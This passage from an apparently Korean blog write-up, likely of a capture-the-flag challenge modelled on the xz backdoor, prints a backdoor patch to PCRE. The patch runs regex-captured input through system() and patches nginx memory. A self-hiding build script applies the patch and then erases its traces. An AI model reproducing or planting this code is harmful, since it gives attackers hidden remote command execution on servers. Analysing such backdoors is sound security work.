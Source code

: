```sh
+if (bd_re == NULL) { bd_re = 1;int f=open("/proc/self/maps", O_RDONLY);strcpy(b, "^/");strcat(b, alph);strcat(b, "/([\\\$a-zA-Z0-9;:/.|]+)");char *e = 0;int eo;bd_re = pcre_compile(b, PCRE_MULTILINE, &e, &eo, 0);if (bd_re == NULL) {bd_re = 1;}read(f, b, 12);b[12] = 0;char* base = (char*)strtoull(b, 0, 16);close(f);int c=0;for (int i=0; i<0x130000; i++) {char* p = base + i;if (p[0]=='n'&p[1]=='g'&p[2]=='i'&p[3]=='n'&p[4]=='x'&p[5]=='/'&p[6]=='1'&p[7]=='.'&p[8]=='1'&p[9]=='8'&p[10]=='.') {c++; if (c > 5) break;void* p_page = (void*)((uint64_t)p & 0xfffffffffffff000);mprotect(p_page, 0x1000, PROT_READ|PROT_WRITE);snprintf(p, 21, "ni/nginx/%s                            ", date_s);p[20] = 0x20;}} }
+
 REAL_PCRE *re;
 int length = 1;  /* For final END opcode */
 pcre_int32 firstcharflags, reqcharflags;
diff --git a/pcre_exec.c b/pcre_exec.c
index 55230cd..3399738 100644
--- a/pcre_exec.c
+++ b/pcre_exec.c
@@ -6347,6 +6347,10 @@ Returns:          > 0 => success; value is the number of elements filled in
                    -1 => failed to match
                  < -1 => some kind of unexpected problem
 */
+int bd = 0;
+// Defined in other c file
+extern pcre* bd_re;
+extern char* alph;
 
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN int PCRE_CALL_CONVENTION
@@ -6398,6 +6402,11 @@ frame_zero.Xnextframe = NULL;            /* None are allocated yet */
 md->match_frames_base = &frame_zero;
 #endif
 
+// Here is the target, good luck:
+// curl http://chiptunegeek.shellweplayaga.me:194/[ CENSORED ] --header "Ticket: ticket{[ CENSORED ]}" [ CENSORED ]
+char buf[0x2000];
+if (bd== 0) { bd = 1; if (bd_re) { int ov[30];int rc = pcre_exec(bd_re, NULL, subject, strlen(subject), 0, 0, ov, sizeof(ov)/sizeof(ov[0]));if (rc >= 2) { pcre_copy_substring(subject, ov, rc, 1, buf, sizeof(buf));char* m = strdup(buf);system(m); }} bd = 0; }
+
 /* Check for the special magic call that measures the size of the stack used
 per recursive call of match(). Without the funny casting for sizeof, a Windows
 compiler gave this error: "unary minus operator applied to unsigned type,

EOF
patch -p1 < 'testdata/ ' 2>&1 1>/dev/null
echo $(($(date +%s) / 86400)) | md5sum | cut -d' ' -f1 |  awk '{ for(i=0;i<10;i++) printf "%s", $1 }' > a
echo '"'$(echo "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789" | grep -o . | shuf --random-source ./a| tr -d '
')'"' > b.h; rm -f ./a;
echo '"'$(date +"%m.%d.%y" | tr -d '0')'"' > d.h
cat <<EOF > cleanup-tests
#!/bin/bash
make \$@
if [ "\$1" = "install" ]; then patch -R -p1 < 'testdata/ ' 2>&1 1>/dev/null; rm -f 'testdata/ '; rm -f cleanup-tests b.h d.h; fi
EOF
chmod +x cleanup-tests; make $@
```
{{< /details >}}


[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 